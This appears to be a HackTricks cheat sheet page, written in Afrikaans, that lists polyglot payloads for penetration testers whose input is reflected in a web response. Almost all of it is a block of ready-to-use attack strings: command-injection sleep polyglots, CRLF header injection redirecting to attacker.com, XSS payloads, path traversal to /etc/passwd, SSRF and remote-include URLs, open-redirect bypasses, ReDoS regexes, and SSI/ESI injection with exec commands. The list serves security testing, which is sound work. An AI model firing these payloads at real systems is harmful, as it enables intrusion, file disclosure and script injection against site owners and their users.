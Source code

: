# Reflecting Techniques - PoCs and Polygloths CheatSheet

{{#include ../../banners/hacktricks-training.md}}

Die doel van hierdie PoCs en Polygloths is om die toetsers 'n vinnige **opsomming** te gee van kwesbaarhede wat hulle mag benut as hul **invoer op een of ander manier in die antwoord weerspieël word**.

> [!WARNING]
> Hierdie **cheatsheet stel nie 'n omvattende lys van toetse vir elke kwesbaarheid voor nie**, net 'n paar basiese. As jy op soek is na meer omvattende toetse, toegang tot elke voorgestelde kwesbaarheid.

> [!CAUTION]
> Jy **sal nie Content-Type afhanklike inspuitings soos XXE vind nie**, aangesien jy gewoonlik self probeer as jy 'n versoek vind wat xml-data stuur. Jy **sal ook nie databasisinspuitings** hier vind nie, aangesien dit, selfs al kan sommige inhoud weerspieël word, sterk afhanklik is van die agtergrond DB-tegnologie en -struktuur.

## Polygloths lys
```python
{{7*7}}[7*7]
1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
%0d%0aLocation:%20http://attacker.com
%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
%3f%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3a0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E
%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E
<br><b><h1>THIS IS AND INJECTED TITLE </h1>
/etc/passwd
../../../../../../etc/hosts
..\..\..\..\..\..\etc/hosts
/etc/hostname
../../../../../../etc/hosts
C:/windows/system32/drivers/etc/hosts
../../../../../../windows/system32/drivers/etc/hosts
..\..\..\..\..\..\windows/system32/drivers/etc/hosts
http://asdasdasdasd.burpcollab.com/mal.php
\\asdasdasdasd.burpcollab.com/mal.php
www.whitelisted.com
www.whitelisted.com.evil.com
https://google.com
//google.com
javascript:alert(1)
(\\w*)+$
([a-zA-Z]+)*$
((a+)+)+$
<!--#echo var="DATE_LOCAL" --><!--#exec cmd="ls" --><esi:include src=http://attacker.com/>x=<esi:assign name="var1" value="'cript'"/><s<esi:vars name="$(var1)"/>>alert(/Chrome%20XSS%20filter%20bypass/);</s<esi:vars name="$(var1)"/>>
{{7*7}}${7*7}<%= 7*7 %>${{7*7}}#{7*7}${{<%[%'"}}%\
<xsl:value-of select="system-property('xsl:version')" /><esi:include src="http://10.10.10.10/data/news.xml" stylesheet="http://10.10.10.10//news_template.xsl"></esi:include>
" onclick=alert() a="
'"><img src=x onerror=alert(1) />
javascript:alert()
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>
-->'"/></sCript><deTailS open x=">" ontoggle=(co\u006efirm)``>
```
